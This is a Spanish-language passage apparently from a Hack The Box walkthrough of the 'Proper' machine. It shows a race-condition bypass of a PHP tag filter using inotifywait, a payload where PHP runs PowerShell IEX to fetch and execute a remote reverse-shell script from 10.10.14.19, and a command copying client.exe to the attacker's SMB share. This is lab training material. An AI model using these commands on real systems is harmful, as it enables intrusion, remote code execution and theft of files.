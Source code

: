 En el mensaje de error podemos observar que no nos permite usar el <? para utilizar código php, podemos ver cómo podemos hacer un bypass de esto. Revisando el mensaje de error otra vez vemos que primero el archivo se llama con file get contents y después se ve cómo se usa el include para llamarlo, podemos usar inotifywait para que con un sleep de dos segundos nos cambie el contenido del archivo con código php.

![imagen10](/assets/images/Proper/proper10.png)

```shell
gu3ro@parrot:/home/gu3ro/Desktop/guero/htb/Proper/content$ echo "dummy header" > header.inc; inotifywait -e CLOSE header.inc; sleep 2; echo "<?php system('powershell IEX(New-Object Net.WebClient).downloadString(\'http://10.10.14.19/ps.ps1\')') ?>" > header.inc
Setting up watches.
Watches established.
header.inc CLOSE_NOWRITE,CLOSE 
```
Con esto pudimos ejecutar la shell de nishan y poder entrar al sistema. Dentro encontramos unos binarios extraños dentro de Program Files, procedemos a descargarlos y analizarlos con ghidra.

```powershell
PS C:\Program Files\Cleanup> dir


    Directory: C:\Program Files\Cleanup


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----       11/15/2020   4:03 AM        2999808 client.exe                                                            
-a----       11/15/2020   9:22 AM            174 README.md                                                             
-a----       11/15/2020   5:20 AM        3041792 server.exe                                                            


PS C:\Program Files\Cleanup> cp "C:\Program Files\Cleanup\client.exe" \\10.10.14.19\smb\client.exe
```
